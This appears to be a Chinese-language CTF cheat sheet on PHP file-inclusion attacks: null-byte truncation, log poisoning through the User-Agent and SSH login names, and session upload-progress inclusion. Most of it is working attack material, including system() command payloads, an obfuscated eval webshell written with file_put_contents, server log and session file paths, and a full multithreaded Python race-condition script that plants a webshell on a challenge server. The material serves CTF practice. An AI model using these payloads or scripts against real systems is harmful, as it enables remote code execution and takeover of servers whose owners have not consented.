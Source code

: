 ## **文件包含有后缀**
```
include $c.".php";
尝试使用%00截断
xx%00
```

## **日志包含**
已知url上有文件包含
log日志记录ua，参考web日志路径
修改ua为phpshell,包含日志log文件
修改UA为：
```
1=system("ls");
1=system("tac fl0g.php");

<?php
$a = '<?ph'.'p ev'.'al($_PO'.'ST[1]);?>';
file_put_contents('/var/www/html/1.php',$a);
?>
```
```
/var/log/nginx/access.log
```

^
ssh登录日志文件
把登录名改php的shell
包含ssh登录日志

^
## **session临时文件包含**
php的session保存在一个目录下
session内容可控时
文件包含session文件

php的session常见存储位置，里面为键值对 字符
```
/var/lib/php5/sess_PHPSESSID
/var/lib/php7/sess_PHPSESSID
/var/lib/php/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSED
/var/lib/php/sessions/sess_PHPSESSID
```
PHPSESSID来源F12的cookie会存储
如
```
/tmp/sess_99se2w33sddcs
```
^
**文件名和内容的控制：**
cookie中自定义新的Session ID会新初始化Session。如，设置PHPSESSID=AAA，PHP将会在服务器上创建一个文件: /tmp/sess_AAA"， 文件里存放了键值，键值由ini.get("session.upload_progress.prefix")+session.upload_progress.name值组成。
所以同时通过POST传参PHP_SESSION_UPLOAD_PROGRESS即可写入内容：
```
'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'
```

^
但因为默认配置session.upload_progress.cleanup=on（意思是当文件上传结束后，php将会立即清空对应session文件中的内容）。所以，我们文件上传后，session文件内容会被立即清空。这就要利用竞争，在session文件内容被清空前进行包含利用。

^
**写入session文件同时文件包含写小马，小马jiuzhen.php密码3：**
```
import requests
import io
import threading

url='http://9a77fcb3-6f3c-4bd6-a247-07bfe6766509.challenge.ctf.show:8080/'
sessionid='ctfshow'
data={
   "1":"file_put_contents('/var/www/html/jiuzhen.php','<?php eval($_POST[3]);?>');"
}
#这个是访问/tmp/sess_ctfshow时，post传递的内容，是在网站目录下写入一句话木马。这样一旦访问成功，就可以蚁剑连接了。
def write(session):#/tmp/sess_ctfshow中写入一句话木马。
   fileBytes = io.BytesIO(b'a'*1024*50)
   while True:
      response=session.post(url,
         data={
         'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'
         },
         cookies={
         'PHPSESSID':sessionid
         },
         files={
         'file':('ctfshow.jpg',fileBytes)
         }
         )

def read(session):#访问/tmp/sess_ctfshow，post传递信息，在网站目录下写入木马。
   while True:
      response=session.post(url+'?file=/tmp/sess_'+sessionid,data=data,
         cookies={
         'PHPSESSID':sessionid
         }
         )
      resposne2=session.get(url+'jiuzhen.php');#访问木马文件，如果访问到了就代表竞争成功
      if resposne2.status_code==200:
         print('++++++done++++++')
      else:
         print(resposne2.status_code)

if __name__ == '__main__':

   evnet=threading.Event()
   #写入和访问分别设置5个线程。
   with requests.session() as session:
      # 当你使用 requests.Session() 创建了一个会话对象后，这个会话对象会自动处理cookie。
      # 如果你在会话中发送了一个请求，服务器返回了cookie，那么这些cookie会被会话对象自动保存，并且在后续使用同一个会话对象发送的请求中自动携带这些cookie。
      for i in range(5):
         threading.Thread(target=write,args=(session,)).start()
      for i in range(5):
         threading.Thread(target=read,args=(session,)).start()

   evnet.set()
```

^
对于system($_GET['cmd'])函数，也可以用session，用cmd=php /tmp/sess_aaaa




